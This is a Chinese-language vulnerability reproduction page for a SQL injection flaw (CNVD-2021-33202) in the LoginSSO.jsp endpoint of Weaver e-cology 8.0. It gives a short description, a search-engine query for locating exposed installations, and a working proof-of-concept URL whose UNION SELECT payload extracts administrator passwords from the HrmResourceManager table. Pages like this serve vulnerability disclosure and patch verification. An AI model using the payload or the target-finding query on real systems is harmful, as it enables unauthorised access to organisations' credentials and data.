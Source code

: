 # 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。
泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>泛微e-cology 8.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-20220313184449317.png)

验证POC

```php
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![img](../../../.vuepress/public/img/1636962109612-27c439fe-00a4-4d90-89ca-737b2ce98400.png)